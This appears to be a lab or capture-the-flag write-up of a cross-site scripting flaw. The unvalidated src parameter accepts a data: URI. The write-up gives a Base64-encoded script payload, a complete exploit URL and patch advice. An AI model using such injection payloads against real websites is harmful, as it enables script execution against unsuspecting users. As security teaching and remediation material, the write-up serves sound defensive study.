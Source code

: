 # Exploit: Data URL Injection via src Parameter

## Vulnerability
By replacing the `src` parameter in the URL with a `data:` URI scheme (which encodes a payload in Base64), it is possible to inject and execute JavaScript. 
This occurs because the application fails to validate or sanitize the `src` parameter, allowing arbitrary data, including potentially harmful scripts, to be loaded.

### Example
1. Original URL:
http://10.14.60.12/?page=media&src=nsa

2. Data URL Structure:
The Data URLs are composed of four parts:
- A prefix: `data:`
- A MIME type indicating the type of data (e.g., `text/html`)
- An optional `base64` token if the data is non-textual
- The encoded data itself

Format:
data:[<media-type>][;base64],<data>


3. Payload:
- MIME type: `text/html`
- Script to inject:
  ```html
  <script>alert('you got hacked')</script>
  ```
- Base64-encoded payload:
  ```
  PHNjcmlwdD5hbGVydCgneW91IGdvdCBoYWNrZWQgJyk8L3NjcmlwdD4=
  ```

4. Exploit URL:
Replace the `src` parameter in the URL:
http://10.14.60.12/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneW91IGdvdCBoYWNrZWQgJyk8L3NjcmlwdD4=


5. Result:
Injected script executes, displaying the alert message.

## Patch

### 1. Use HTTP-only Content Loading for Media
If the application dynamically loads media content (e.g., images or videos), ensure it does so via HTTP or HTTPS protocols. Avoid inline content, such as `data:` URIs, which can be exploited for XSS or other injections.

### 2. Server-Side Filtering
Sanitize and validate the `src` parameter on the server-side:
- Ensure only trusted URLs are allowed.
- Reject or sanitize `data:` URIs and other inline schemes.

### 3. Content Security Policy (CSP)
Implement a strong Content Security Policy to restrict the execution of unauthorized scripts or loading of untrusted resources.

### 4. Regular Testing
Regularly audit and test the application for potential vulnerabilities, including XSS and parameter-based exploits.

